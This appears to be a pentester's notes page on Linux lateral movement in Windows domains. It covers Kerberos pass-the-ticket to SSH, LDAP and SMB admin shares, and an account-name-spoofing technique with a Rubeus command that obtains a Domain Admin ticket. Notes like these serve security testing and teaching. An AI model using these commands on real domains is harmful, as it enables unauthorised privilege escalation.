 ```yaml
---
title: Linux Lateral Movement
---
```


[[notes/lateral-movement/index]] from and to [[notes/linux/index]].

# Kerberos

Request a TGT when logged in as domain user (will interactively ask for the password).

~~~ bash
kinit && klist
~~~

Request a ST.

~~~ bash
kvno MSSQLSvc/db01.corp.local:1433
klist
~~~

Renew an expired TGT without needing to enter a password (source?).

~~~ bash
kinit -R
~~~

Discard all tickets.

~~~ bash
kdestroy
~~~

Linux servers that are joined to a Windows domain are vulnerable to *Account Name Spoofing*.
OpenSSH GSSAPI is enabled by default in the RHEL family, but not on Debian/Ubuntu ([source](http://web.archive.org/web/20230826080918/https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/), [source](http://web.archive.org/web/20230814081422/https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Ceri%20Coburn%20-%20A%20Broken%20Marriage%20Abusing%20Mixed%20Vendor%20Kerberos%20Stacks.pdf)).
Potential targets can be identified with the following BloodHound query:

~~~ cypher
MATCH p = (:Domain)-[:Contains*1..]->(c:Computer {enabled: true}) WHERE NOT toLower(c.operatingsystem) CONTAINS "windows" AND NOT toLower(c.operatingsystem) CONTAINS "mac os" AND NOT toLower(c.operatingsystem) CONTAINS "macos" RETURN p
~~~

An attacker with *GenericWrite* on a user or computer account can set the *userPrincipalName* to `administrator` and request a TGT that GSSAPI recognizes as Domain Admin.
[gssapi-abuse](https://github.com/CCob/gssapi-abuse) can aid in the exploitation.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe asktgt /user:administrator /password:"passw0rd" /principaltype:enterprise
    ~~~

# SSH

Login interactively with the password of a domain user trough Kerberos.

~~~ bash
ssh jdoeadm@corp.local@srv01.corp.local
~~~

Pass the ticket to SSH.

~~~ bash
export KRB5CCNAME=./jdoeadm.ccache
ssh jdoeadm@corp.local@srv01.corp.local
~~~

# LDAP

Pass the ticket to LDAP.
If you are prompted for a password just press enter.
`ldapsearch` will then switch to Kerberos.

~~~ bash
export KRB5CCNAME=./jdoeadm.ccache
ldapsearch -Y GSSAPI -H ldap://dc01.corp.local -D jdoeadm@CORP.LOCAL -W -b 'dc=corp,dc=local' '(objectClass=*)'
~~~

# SMB

Pass the ticket to SMB.

~~~ bash
export KRB5CCNAME=./jdoeadm.ccache
smbclient -k -U 'CORP.LOCAL\jdoeadm' '//DC01.CORP.LOCAL/C$'
smbclient --use-kerberos required -U 'CORP.LOCAL\jdoeadm' '//DC01.CORP.LOCAL/C$'
~~~
